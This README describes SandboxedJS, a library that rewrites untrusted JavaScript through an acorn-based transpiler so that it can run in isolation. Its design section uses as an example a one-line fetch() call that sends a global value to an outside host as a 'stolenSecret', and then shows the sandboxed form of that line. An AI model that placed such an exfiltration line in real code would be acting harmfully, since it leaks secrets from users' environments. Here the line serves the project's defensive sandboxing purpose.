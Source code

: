 # SandboxedJS

Sandbox untrusted/arbitrary JavaScript code and safely execute it in isolation.

## Performance

Run `npm run benchmark` to benchmark SandboxedJS's `saveEval` against a native js `eval`. Currently most benchmarks comparisons show SandboxedJS is **~20x** slower than native JS. However, if you don't count the time required to transpile the code, execution time can be between **~1.3x to ~20x** slower than native JS, depending on the kind of work being performed. The goal for the MVP is to just get this thing working in a secure manner (breaking out of sandbox should be impossible), and optimizations can come later.

## Status

Under active development. Looking for others to help out!

## JS Support 

| Feature | Status |
| ------- | ------ |
| primitives | ✅ |
| `number` | ✅ |
| `string` | ✅ |
| `boolean` | ✅ |
| `null` | ✅ |
| `undefined` | ✅ |
| `bigint` | ✅ |
| `symbol` | ⚠️ |
| autoboxing primitives to objects | ⚠️ works for some types like `Number` |
| binary operators (`+`, `-`, `%`, etc.) | ✅ |
| unary operators  (`+`, `-`, `typeof`, etc.) | ✅ |
| simple objects (i.e. `{a: true}`) | ✅ |
| arrays | ✅ |
| functions | ✅ |
| `this` | ⚠️ |
| `arguments` | ✅ |
| local variables | ✅ |
| assignment | ✅ |
| global variables | ⚠️ |
| prototypes | ⚠️ |
| `Object` global | ⚠️ |
| ternary operators | ❌ |
| global variables | ❌ |


| Legend |  |
| ------- | ------ |
| ✅ | Finished  |
| ⚠️ | In development  |
| ❌ | Haven't started work  |

## Comparison of JS in JS Implementations

| Name | Link | Performance |
| ----------- | ----------- | --------- |
| SandboxedJS |  | ~20x slower than native |
| js.js | https://github.com/jterrace/js.js/ | [~200x slower than native]()https://github.com/jterrace/js.js/#status |
| JS-Interpreter | https://github.com/NeilFraser/JS-Interpreter/ | [~200x slower than native](https://github.com/NeilFraser/JS-Interpreter/issues/227) |


## Design

Let's say we want to sandbox the following untrusted JS code:

```js
fetch("https://api.example.com?stolenSecret=" + window.globalValue);
```

In this example, the untrusted code is attempting to grab a global value it should NOT have access to and pass the value to its server. If this code was naively run with `eval`, the host environment would be compromised.

To make untrusted JS code safe to run, SandboxedJS rewrites the untrusted code using a JS-to-JS transpilation step. Then it is safe to run `eval` on the transpiled js code. The resulting transpiled code of the above example might look something as follows:

```js
sContext.sLookUp("fetch").sCall([
  SBinaryOps.sBinaryAdd(
    new SStringValue("https://api.example.com?stolenSecret="),
    sContext.sLookUp("window").sLookUp("globalValue")
  )
])
```

Note, the "s" prefix is short for "sandboxed".

To produce this code, SandboxedJS uses [acorn](https://github.com/acornjs/acorn) to produce an AST of the untrusted JS. It then walks the entire AST and emits each piece of the tree in the format above.

## Running Locally

Install deps: `npm i`

Run benchmarks: `npm run benchmark`

Run tests: `npm test`

Build to `lib` folder: `npm run build`

## Unique Features

 - Add metadata to any JS value which is invisible to the client (untrusted) JS code but visible to the host environment.
